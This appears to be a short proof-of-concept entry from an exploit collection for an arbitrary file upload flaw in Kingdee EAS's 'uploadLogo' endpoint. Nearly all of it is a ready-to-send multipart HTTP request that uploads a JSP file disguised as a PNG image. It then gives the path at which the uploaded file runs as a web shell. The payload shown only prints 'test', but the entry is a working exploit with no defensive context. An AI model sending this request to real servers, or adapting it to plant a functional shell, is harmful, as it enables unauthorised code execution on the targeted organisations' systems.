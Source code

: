 # kindee_eas_easc_uploadLogo_fileupload

2024/1/29 @2
from: https://mp.weixin.qq.com/s/HTREdrnoMt5WCuKlhx8yeg
```
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62
 
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"
 
ab
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"
 
ac
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"
 
 
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"
 
ad
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: image/png
 
<%out.print("test");%>
--04844569c7ca7d21a3ca115dca477d62--
```
check response to get filename

shell: /portal/res/file/upload/{filename}.jsp
